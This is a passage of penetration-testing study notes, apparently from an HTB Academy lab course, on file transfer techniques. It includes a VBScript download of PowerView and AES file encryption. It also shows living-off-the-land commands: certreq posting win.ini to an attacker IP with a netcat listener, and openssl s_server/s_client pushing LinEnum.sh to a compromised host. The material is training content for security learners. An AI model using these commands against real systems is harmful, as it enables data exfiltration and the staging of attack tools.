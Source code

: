 - `cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1` Download a File Using VBScript and cscript.exe

> Source HTB Academy using this [thread](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs)

## Protected File Transfers

### On Windows

- Encrypt files with [Invoke-AESEncryption.ps1](https://www.powershellgallery.com/packages/DRTools/4.0.2.3/Content/Functions%5CInvoke-AESEncryption.ps1)

> We can use any file transfer methods to get this file onto a target host. After the script has been transferred, it only needs to be imported as a module.

- `Import-Module .\Invoke-AESEncryption.ps1`
- `Invoke-AESEncryption.ps1 -Mode Encrypt -Key "p4ssw0rd" -Path .\scan-results.txt` File Encryption example

### On Linux

- [OpenSSL](https://www.openssl.org/)
- `openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc` to encrypt /etc/passwd.
- `openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd` to decrypt

## Living off The Land

- [LOLBAS](https://lolbas-project.github.io/)
- [GTFOBins](https://gtfobins.github.io/)

### LOLBAS - Example with CertReq

- CertReq is an example but we could find other binaries as well for this purpose.
- [certreq](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe)
- `certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini` upload win.ini in our attack machine. This will send the file to our Netcat session, and we can copy-paste its contents.
- `sudo nc -lvnp 80` with the listener from our attack machine we should receive the file.

### GTFOBINS - Example with OpenSSL

- [GTFOBINS upload and download](https://gtfobins.github.io/#+file%20upload%20+file%20download)

- `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem` Create Certificate in our attack machine
- `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh` Stand up the Server in our attack machine
- `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh` Download File from the Compromised Machine

### Others Living off the Land tools
